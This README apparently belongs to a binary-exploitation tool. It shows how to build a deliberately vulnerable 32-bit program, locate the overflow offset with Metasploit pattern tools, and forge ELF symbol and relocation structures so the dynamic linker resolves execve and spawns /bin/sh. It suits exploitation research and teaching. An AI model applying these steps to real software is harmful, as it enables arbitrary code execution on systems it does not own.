 How to test
===========

1. Build vuln.c

    gcc -fno-stack-protector ../vuln.c -o /tmp/vuln -m32 -O2

2. Find the offset of the saved IP

    ruby19 "$METASPLOIT/tools/pattern_create.rb" 256 | /tmp/vuln
    dmesg | tail
    ruby19 "$METASPLOIT/tools/pattern_offset.rb" $SEGFAULT_IP

3. Launch the attack with the desired parameter

    (python ./exploit.py /tmp/vuln $OFFSET; echo ls) | /tmp/vuln

Basic idea
==========

char *buffer = .bss;
char *new_stack = buffer + 1024;
int *rubbish = new_stack + 4;

strcpy(buffer, "execve");
  *((int *) buffer) = 'exec';
  *(((int *) buffer) + 1) = 've\0\0';
char *name = buffer;
buffer += strlen(buffer) + 1;

Elf32_Sym *symbol = (Elf32_Sym *) buffer;
symbol->st_name = name - .dynstr;
symbol->st_value = 0;
symbol->st_info = 0;
symbol->st_other = 0;
symbol->st_shndx = 0;
buffer += sizeof(*symbol);

Elf32_Rel *reloc = (Elf32_Rel *) buffer;
reloc->r_offset = rubbish++;
reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
buffer += sizeof(reloc):

pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));

Helper classes
==============

* `MemoryArea`: data structure representing a part of memory, with its
  start address, its size, a reference to what its relative to
  (e.g. the `MemoryArea` where we'll write the relocation structure
  will be relative to the `.rela.dyn` section). `MemoryArea` also
  takes care of computing the appropriate index (`MemoryArea.index`)
  relative to the specified part of memory.
* `Buffer`: data structure holding information about a buffer where we
  want to write to things. Typically this will represent to
  `.bss`. Buffer also keeps track of what part of it has already been
  allocated (`Buffer.current` points to the next free location) and
  allows to allocate new `MemoryArea`s with the appropriate
  alignement.

Exploit-derived classes
=======================

* `Exploit`: the base class, contains all the architecture- and
  platform-independent parts of the exploit. It keeps the list of the
  gadgets, it takes care of collecting all the interesting information
  about the program from the ELF file and abstracting some utility and
  memory-related functions (e.g. `write_pointer` and `write_string`)
  which rely on the abstract `do_writemem` function (which is
  platform- and program-dependent). Finally, in `jump_to`, contains
  the core logic for setting up the necessary data structures in the
  buffers.
* `CommonGadgetsExploit`: inherits from `Exploit` and introduces
  architecture-dependent parts, in particular gadgets and
  function-invocation logic.
* `ExecveExploit`: very simple class implementing the logic to launch
  an `execve`, so write a NULL pointer, a "/bin/sh\0" and explicitly
  look for `execve`. Finally invoke it.
